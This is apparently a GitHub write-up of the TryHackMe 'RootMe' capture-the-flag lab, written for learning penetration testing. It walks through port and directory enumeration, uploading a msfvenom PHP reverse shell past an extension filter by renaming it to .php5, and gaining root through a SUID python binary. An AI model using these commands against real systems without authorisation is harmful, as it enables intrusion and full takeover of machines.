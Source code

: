 # RootMe

## Reconnaissance
Let's start the enumeration with scanning the ports, which we can do with ```nmap```. This can be done with the command ```nmap -A -T4 <ip>```.

![nmap](https://github.com/nicolai-h/tryhackme/blob/main/root_me/images/nmap.png)

As we can see there are two ports open, port 22 for ssh and port 80 for http. The SSH version running is OpenSSH 7.6p1 and the server is an Apache server running on ubuntu. For further enumeration we can use ```ffuf``` with the command ```ffuf -w /usr/share/wordlists/dirb/big.txt -u "http://<ip>/FUZZ"```.

![ffuf](https://github.com/nicolai-h/tryhackme/blob/main/root_me/images/fuzzing.png)

The output shows us that that there are two hidden directories, panel and uploads. When entering <ip>/panel we can see that there is an upload form.

![panel](https://github.com/nicolai-h/tryhackme/blob/main/root_me/images/panel.png)

## Getting a shell
Lets see if we can upload a reverse shell through the upload form. We can create an reverse shell with the command ``` msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php```. When trying to upload our reverse shell we can see that there is an filter in place that does not accept ```.php``` files. We can try to get around the filter by changing the extension to ```.php5```. That worked! Now we can go to <ip>/uploads and run the file while we try to catch the reverse shell. We can catch the reverse shell with metasploit (msfconsole). I used the payload ```php/meterpreter_reverse_tcp```. Set the options ```LHOST <your ip>``` and ```LPORT <choosen port>```.

![msf](https://github.com/nicolai-h/tryhackme/blob/main/root_me/images/msf.png)

## Privilege escalation
Now that we have gotten onto the computer we can start with the privilege escalation, we can start the enumeration with ```find / -perm -u=s -type f 2>/dev/null``` which will find the executable files with the SUID bit set.

![priv_esc1](https://github.com/nicolai-h/tryhackme/blob/main/root_me/images/priv_esc.png)

As we can see /usr/bin/python has the SUID bit set, we can use this to escalate our privileges with the command ```/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'```

![priv_esc2](https://github.com/nicolai-h/tryhackme/blob/main/root_me/images/priv_esc2.png)

And there we have it!

